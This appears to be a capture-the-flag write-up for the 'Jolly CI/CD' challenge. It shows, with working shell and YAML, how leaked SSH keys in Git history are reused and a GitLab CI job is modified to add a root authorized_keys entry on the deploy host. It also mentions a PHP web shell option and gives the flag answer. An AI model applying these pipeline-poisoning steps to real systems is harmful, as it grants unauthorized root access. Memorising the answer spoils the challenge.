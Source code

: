 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [cicd terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd&id=1a9f996e-1860-4c36-be8f-43e4fd87924d)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, move into the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

![Commit history](../img/objectives/o7/commit_history.png)

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update, so let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

![Commit details](../img/objectives/o7/commit_details.png)

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 2), create an `.ssh` folder (line 3), copy the private `.deploy` (line 4) and public `.deploy.pub` (line 5) SSH keys, lock down the `.ssh` folder permissions (line 6), and configure a Git email and user name (lines 7-8). For the latter we use the *Author* information shown in the git log screenshots above.

```shell linenums="1" title="SSH key and Git config setup"
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

![Re-clone](../img/objectives/o7/re-clone.png)


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](https://docs.gitlab.com/ee/ci/yaml/gitlab_ci_yaml.html) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from `gitlab.flag.net.internal` to `wordpress.flag.net.internal` each time a commit is pushed to the Git repository.

```yaml linenums="1" title=".gitlab-ci.yml - deploy-job"
deploy-job:
  stage: deploy
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
      --chown=www-data:www-data -atv --delete --progress
      ./ root@wordpress.flag.net.internal:/var/www/html
```

The ability to push changes to the Git repo gives us a few options to obtain access to `wordpress.flag.net.internal`. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [cURL](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on `wordpress.flag.net.internal`. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/.gitlab-ci.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab to the Wordpress host (line 4) and executes `cat` to add the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (line 5).

```yaml linenums="1" title=".gitlab-ci.yml - copy-key-job"
copy-key-job:
  stage: deploy
  environment: production
  script:
    - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
      'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit (lines 2-3) and push our changes (line 4) to the `gitlab.flag.net.internal` server, and wait for the updated CI/CD automation to kick off.

```shell linenums="1" title="Commit and push changes"
cd ~/wordpress.flag.net.internal
git add .
git commit -m 'Adding a new SSH key'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

![Finding the flag](../img/objectives/o7/finding_the_flag.png)

!!! done "Answer"
    `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
